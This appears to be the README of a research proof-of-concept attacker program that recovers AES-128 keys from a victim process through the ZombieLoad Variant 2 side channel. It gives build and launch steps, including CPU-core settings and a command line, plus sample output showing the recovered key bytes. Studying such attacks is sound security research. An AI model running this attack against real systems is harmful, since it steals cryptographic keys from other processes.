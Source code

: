 # Attacker Program for the differential attack with ZomvieLoad Variant 2

The folder `aes-min` contains a minimal AES128 software implementation by Craig McQueen ([cmcqueen/aes-min on GitHub, version 0.3.1](https://github.com/cmcqueen/aes-min/tree/728e156091b95a7f2e8882b7dee012e9a6ea6213) that we use to compute the inverse AES key schedule. We removed some files (like tests) that are not necessary for compiling the victim program and introduced minor changes to make the inverse key schedule function accessible to our own C code (see [aes-min/CHANGES](aes-min/CHANGES) for details). Please refer to the original repository if you are interested in the `aes-min` project.

## Preparing the attacker program

Set the processor id to run the attacker and vicim processes on in `main.h` (make sure to choose sibling cores, i.e., logical cores sharing the same physical core):

```c
#define CPU_ATTACKER 3
#define CPU_VICTIM 7
```

## Compiling
```
make
```

## Launch the attack

Start the attacker program. Provide the number of samples to collect and the number of samplpes per plaintext as command line parameters:
```
bin/dpa_attacker_v2 800000 300
```

If the attack was successful, the attacker most probable key byte hypotheses are equal to the actual key bytes. For example, for the key

```
2b 7e 15 16 28 ae d2 a6 ab f7 15 88 09 cf 4f 3c
```

the output could be:

```
[MA] Ranked Results (Top 5):
[MA] Key byte  0:  2b  (  74)  bf  (  62)  2f  (  59)  a9  (  59)  d9  (  59) 
[MA] Key byte  1:  7e  (  86)  d3  (  71)  85  (  66)  06  (  65)  aa  (  65) 
[MA] Key byte  2:  15  (  78)  1f  (  60)  a2  (  56)  20  (  55)  28  (  55) 
[MA] Key byte  3:  16  (  91)  9f  (  60)  6f  (  57)  9c  (  56)  c9  (  56) 
[MA] Key byte  4:  28  (  79)  a1  (  65)  a9  (  64)  43  (  63)  82  (  62) 
[MA] Key byte  5:  ae  (  79)  31  (  53)  56  (  53)  8d  (  53)  ff  (  53) 
[MA] Key byte  6:  d2  (  82)  06  (  63)  71  (  58)  a8  (  58)  a7  (  57) 
[MA] Key byte  7:  a6  (  89)  bf  (  59)  ec  (  58)  83  (  57)  8d  (  57) 
[MA] Key byte  8:  ab  (  71)  c5  (  53)  47  (  52)  9e  (  52)  ee  (  52) 
[MA] Key byte  9:  f7  (  73)  65  (  58)  6f  (  58)  84  (  57)  f1  (  57) 
[MA] Key byte 10:  15  (  63)  a2  (  56)  59  (  52)  9b  (  52)  1d  (  51) 
[MA] Key byte 11:  88  (  75)  5f  (  56)  a1  (  56)  27  (  55)  a9  (  55) 
[MA] Key byte 12:  09  (  65)  0d  (  57)  27  (  55)  c3  (  55)  a9  (  54) 
[MA] Key byte 13:  cf  (  77)  b8  (  57)  10  (  56)  1c  (  56)  f4  (  55) 
[MA] Key byte 14:  4f  (  67)  b9  (  63)  e1  (  60)  62  (  57)  26  (  56) 
[MA] Key byte 15:  3c  (  90)  17  (  59)  38  (  59)  36  (  58)  f9  (  58) 
[MA] Collected 800000 samples in 172.999953 seconds (4624.278713 samples/s).
```
